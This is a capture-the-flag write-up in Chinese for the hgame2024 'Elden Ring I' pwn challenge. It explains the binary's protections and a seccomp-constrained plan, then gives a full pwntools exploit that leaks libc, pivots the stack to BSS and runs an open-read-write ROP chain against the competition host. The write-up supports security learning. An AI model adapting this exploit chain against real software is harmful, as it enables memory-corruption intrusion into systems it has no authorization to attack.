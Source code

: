 ```yaml
---
title: hgame2024 week1 - Elden Ring I
date: 2024/2/6 18:23:00
tags:
    - stack pivot
excerpt: 通过栈溢出和libc泄露，利用ORW在BSS区执行命令获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="/assets/hgame2024/hgame1seccomp.png" height="60%" width="60%">

## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```
